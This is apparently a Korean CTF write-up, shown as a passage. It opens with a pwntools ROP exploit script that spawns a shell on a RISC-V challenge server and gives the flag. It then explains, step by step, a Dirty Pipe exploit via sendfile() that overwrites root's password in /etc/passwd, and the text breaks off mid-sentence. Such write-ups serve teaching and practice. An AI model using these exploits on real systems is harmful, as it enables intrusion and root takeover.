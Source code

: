 ```python
from pwn import *

p = remote('riscy.sstf.site', 18223)

gadget1 = 0x4a1e8
gadget2 = 0x2b568
gadget3 = 0x47586
payload = b'/bin/sh\x00'
payload += p64(0) * 4
payload += p64(gadget1)
payload += p64(0) * 4
payload += p64(gadget3)         # s4 (ecall gadget)
payload += p64(0) * 3
payload += p64(0x4000800cd8)
payload += p64(gadget2)
payload += p64(0)
payload += p64(0)               # a1
payload += p64(0x4000800ce0)    # a0
payload += p64(221)             # a7
print(len(payload))
p.send(payload)
p.interactive()
```

ASLR이 걸려 있지 않은지, 스택의 주소가 바뀌지 않았다.

마침 gdb로 vmmap을 쳐도 qemu라고만 나오고 주소가 제대로 나오지 않았는데, 다행이다하고 스택에 그냥 썼다. (이거 때문에 도커에서 주소 다시 찾았다..)

이 문제를 통해, 정규표현식에 다시금 익숙해질 수 있었다.

`SCTF{Ropping RISCV is no difference!}`

### **Super mario**
- Arch : amd64-64-little
- RELRO : <span style="color: #008000">Full RELRO</span>
- Stack : <span style="color: #008000">Canary found</span>
- NX : <span style="color: #008000">NX enabled</span>
- PIE : <span style="color: #008000">PIE enabled</span>

Super mario 문제는 단순히 Dirty pipe를 이용한 문제였다.

Dirty pipe는 단순히 설명하면 파이프 버퍼 구조체인 `struct pipe_buffer`의 `flags` 멤버가 초기화되지 않아, 쓰기 권한이 없는 파일이 없음에도, read-only 파일에 대한 페이지 캐시에 덮어쓰기하고, 그 내용이 원본에도 반영되는 취약점이다.

원본 PoC에서는 `splice()`를 이용하고 있지만, `sendfile()` 또한 가능하다는 것을 언급하고 있고, 이 문제는 `sendfile()`을 이용해서 Dirty Pipe를 일으키는 문제이다.

Dirty Pipe 자체는 PoC가 단순한데, 그래서 이 문제도 풀이가 단순하다.

1. pipe를 만들고, 파이프의 내용을 꽉 채웠다가 모두 비운다. 이는 `pipe_buffer`의 `flags`를 `PIPE_BUF_FLAG_CAN_MERGE`로 세팅해두기 위함이다.
2. `sendfile()`를 이용해, read-only 파일의 내용을 파이프에 넣는다. 이때, 실제 파일의 내용이 복사되는 것이 아니라, 페이지 캐시의 주소를 저장하는 것이다.
3. 파이프에 임의의 데이터를 작성한다. 이 데이터는 페이지 캐시의 내용을 덮어쓰고, 이는 원본 파일에 반영된다.

문제 풀이를 진행할 때는, `/etc/passwd`에서 root 유저의 비밀번호를 'piped'로 바꾸었고,
